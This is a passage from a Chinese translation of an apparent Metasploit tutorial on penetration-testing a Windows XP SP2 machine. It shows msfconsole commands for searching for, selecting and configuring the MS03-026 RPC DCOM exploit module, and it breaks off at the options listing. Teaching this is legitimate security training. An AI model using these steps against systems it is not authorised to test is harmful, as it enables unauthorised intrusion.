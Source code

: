 在第一章中，*安全专业人员的 Metasploit 快速提示*，我们已经讨论了整个 Metasploit 框架具有模块化架构。不同的攻击被转换为框架可理解的模块，可以根据其功能。调用不同的命令来加载和设置模块。`msfconsole`的命令行界面使得访问不同的模块和执行渗透测试变得容易。

# 在 Windows XP SP2 机器上进行渗透测试

现在让我们开始使用攻击的世界。首先，我们将使用最基本但最广泛使用的操作系统 Windows XP。在这个示例中，我们将看到如何使用 Metasploit 来入侵我们正在运行 Windows XP 机器的目标系统。我们将使用在上一个示例中学到的命令，然后继续选择攻击和有效载荷，并设置各种所需的参数。

## 准备工作

我们将从`msfconsole`开始我们的渗透测试过程。因此，启动控制台并执行端口扫描以收集有关目标的信息。我们在上一章节中详细讨论了端口扫描。在这里，我假设您已经收集了有关目标的信息，并且它正在运行 Windows XP 操作系统。因此，让我们继续选择攻击和有效载荷。

## 如何做...

要在 Windows XP SP2 机器上执行渗透测试，请按照以下步骤进行：

1.  主要目标是选择一个可以在 Windows XP 机器上使用的攻击。您可以浏览`/exploits/windows`目录，或者简单地搜索 Windows XP 平台上可用攻击的列表。我们将使用 RPC `dcom`漏洞来渗透我们的目标。因此，让我们首先搜索 RPC `dcom`漏洞，使用以下命令：

```
msf exploit(ms03_026_dcom) > search dcom
Matching Modules
================
Name Disclosure Date Rank Description
---- --------------- --- -----------
exploit/windows
dcerpc/ms03_026_dcom 2003-07-16 great Microsoft RPC
xploit/windows/
driver/
broadcom_wifi_ssid 2006-11-11 low Broadcom Wireless
xploit/windows/
smb/ms04_031_netdde 2004-10-12 good Microsoft NetDDE 
```

如我们所见，搜索产生了三个结果。我们将使用第一个攻击，因为它的`rank`列为`great`，因此成功率会更高。

1.  为了将`exploit/windows/dcerpc/ms03_026_dcom`设置为可用的攻击，我们将执行以下命令：

```
msf exploit(ms03_026_dcom) > use exploit/windows/dcerpc/ms03_026_dcom
msf exploit(ms03_026_dcom) > 
```

提示符的更改表示命令已成功执行。

1.  下一步将是设置 exploit 的各种参数。`show options`命令将列出 exploit 中可用的参数。然后，通过使用`set`命令，我们可以设置各种参数。某些参数也将具有默认值：

```
msf exploit(ms03_026_dcom) > show options
Module options (exploit/windows/dcerpc/ms03_026_dcom):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 135 yes The target port
Exploit target:
Id Name
-- ----
0 Windows NT SP3-6a/2000/XP/2003 Universal 
```
